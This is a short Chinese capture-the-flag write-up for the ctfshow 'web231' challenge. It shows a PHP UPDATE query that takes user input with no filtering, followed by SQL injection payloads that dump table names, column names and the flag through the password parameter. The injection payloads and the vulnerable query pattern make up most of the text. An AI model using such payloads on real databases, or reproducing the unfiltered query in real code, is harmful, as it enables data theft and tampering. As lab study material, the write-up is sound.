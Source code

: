

#### web231

```
查询语句

  //分页查询
  $sql = "update ctfshow_user set pass = '{$password}' where username = '{$username}';";
      
返回逻辑

  //无过滤

      
```

知道update函数的作用之后就好理解了

可以通过update函数更新ctfshow_user表中的内容

利用update将查询结果写入表中

```
password=1',username=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where 1=1#&username=1
```

![image-20250217180924812](../assets/image-20250217180924812.png)

```
查表名
password=1',username=(select group_concat(table_name) from information_schema.tables where table_schema=database()) where 1=1#&username=1
查列名
password=1',username=(select group_concat(column_name) from information_schema.columns where table_name='flaga') where 1=1#&username=1
得到flag
password=1',username=(select flagas from flaga) where 1=1#&username=1
                      
原文链接：https://blog.csdn.net/solitudi/article/details/110144623
```
